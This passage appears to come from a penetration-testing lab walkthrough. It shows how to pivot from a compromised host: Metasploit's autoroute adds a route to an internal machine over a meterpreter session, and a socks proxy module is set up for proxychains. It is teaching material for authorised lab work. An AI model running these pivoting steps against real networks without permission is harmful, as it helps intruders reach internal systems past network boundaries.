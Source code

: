 ```powershell
shell
ping 10.0.22.69

#We can access the target_ip machine, i.e., 10.0.22.69.
```

However, we cannot access that machine *(10.0.22.69)* from the Kali machine. So, here we need to perform pivoting by adding route from the Metasploit framework.

### Let's add the route using the meterpreter session and identify the second machine service.

```powershell
CTRL + C
y
run autoroute -s 10.0.22.69/20
```

We have successfully added the route to access the target_ip machine.

### Now, let's start the socks proxy server to access the pivot system on the attacker's machine using the proxychains tool.

First start the socks4a server using the Metasploit module.

Socks4a Proxy Server

This module provides a socks4a proxy server with built-in Metasploit routing to relay connections. Source:: **https://www.rapid7.com/db/modules/auxiliary/server/socks4a/**

Note: The proxychains should have configured with the following parameters at: *( the end of /etc/proxychains4.conf)*

```powershell
cat /etc/proxychains4.conf

```

We can notice, socks4 port is 9050.

Now, let's run the Metasploit socks proxy auxiliary server module on port 9050.

```powershell
background
use auxiliary/server/socks_proxy
show options

```

We notice that SRVPORT is
1080, and VERSION is 5 mentioned in the module options. But, we need to set the port to 9050 and the version to 4a.

Let's change both the values then run the server.

```powershell
set SRVPORT 9050
set VERSION 4a
exploit
jobs

```
